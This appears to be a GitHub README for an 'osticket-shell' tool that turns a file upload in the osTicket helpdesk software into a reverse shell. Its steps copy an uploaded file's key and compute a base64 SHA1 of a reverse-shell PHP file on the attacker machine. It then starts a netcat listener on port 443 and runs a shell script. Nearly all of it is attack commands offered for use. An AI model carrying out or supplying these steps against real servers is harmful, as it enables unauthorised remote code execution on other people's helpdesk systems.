 # osticket-shell

## osticket upload file to reverse shell

* After uploading file
	* `http://target/file.php?key=t4hjgruq3xmgvta0gr8vm9nf5hjyykfui&expires=111111400&signature=f03c2714xxd8f914xxh6de56bd96xx147646683&id=17`

* copy key
	* `t4hjgruq3xmgvta0gr8vm9nf5hjyykfui`

* File key
	* `secrule@ubuntu:~$ php -a `                                  
	* `php > $sha1 = base64_encode(sha1_file('/opt/reverse-shell.php', true));` < path shell | Attacker machine
	* `php > print(str_replace(array('=','+','/'), array('','-','_'), $sha1));`                                                               
	* `output: rUQ3xMGvtA0sn8vM9nf5OQdkFuI`

* listen netcat
	* `nc -lvp 443`

# Usage
`./osticket_shell.sh`
